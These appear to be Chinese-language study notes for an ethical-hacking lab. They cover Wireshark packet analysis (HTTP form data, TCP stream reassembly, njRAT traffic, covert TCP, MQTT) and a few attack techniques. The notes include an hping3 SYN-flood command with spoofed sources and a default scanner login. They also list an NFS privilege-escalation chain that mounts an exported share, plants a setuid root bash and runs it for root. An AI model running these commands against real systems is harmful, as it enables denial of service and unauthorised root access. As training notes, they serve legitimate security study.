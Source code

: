 - 如要分析web form，則可以在：
    - Statistics/Protocol Hierarchy/HTML Form URL Encoded
    - 可以看到web form內使用者輸入的資訊
    - http.request.method == “POST” -&gt; Wireshark filter for filtering HTTP POST request
- 要重組TCP Stream，則：
    - 點選任一封包項目
    - 點Follow-&gt;TCP Stream，接下來可以在show and save data as "Hex Dump"，將資料下載下來
- 使用封包重組後，可以觀看，如果為圖檔：
    - 會有JFIF的字樣
    - 如果為njRAT，且有用遠端桌面，則在JFIF字樣前回堆6個字元組，其16進制值為"ff:d8:ff"
- 如何分析SYN Flood封包
    - 點選TCP/Flags，按右鍵Apply as Filter/Selected
- 如何分析Covert TCP流量
    - 資訊會放在每個IP的ID欄位內，一次一個字母，並以TCP SYN封包傳送
    - ip.src && ip.dst && tcp.srcport
- 分析MQTT
    - (mqtt) && (mqtt.msgtype == 3)
    - mqtt.msg == 48:65:6c:6c:6f:20:4d:51:54:54
    - message欄位可以看到MQTT Publish什麼資訊
    - Copy/as Printable Text 可以把訊息以TEXT型式copy出來

**SYN Flood**

- sudo hping3 --flood --rand-source -S -p 21 [10.10.10.10](https://10.10.10.10) (-S 為指定為SYN Flood)

**Convert TCP**

- 編譯：
    - gcc XXXX.c -o XXXX

**使用OpenVAS進行弱掃**

- admin/password

如何利用NFS的弱點進入、提權，並取得資料

- 先看有無開啟NFS服務
    - namp -sVC XXXXX
    - rpcbind 在2049 nfs
- Mount NFS
    - apt install nfs-common
    - service rpcbind start (systemctl start rpcbind)
    - showmount -e [10.10.10.10](https://10.10.10.10)
    - mount -t nfs [10.10.10.10:/home](https://10.10.10.10:/home) /mnt
- 提權
    - chown root bash
    - chmod 4755 ./bash
    - ./bash -p
    - id 看euid是否為root
- 找檔案
    - find . -name "檔名"

**BASE64解碼**

- 去cyberchef進行
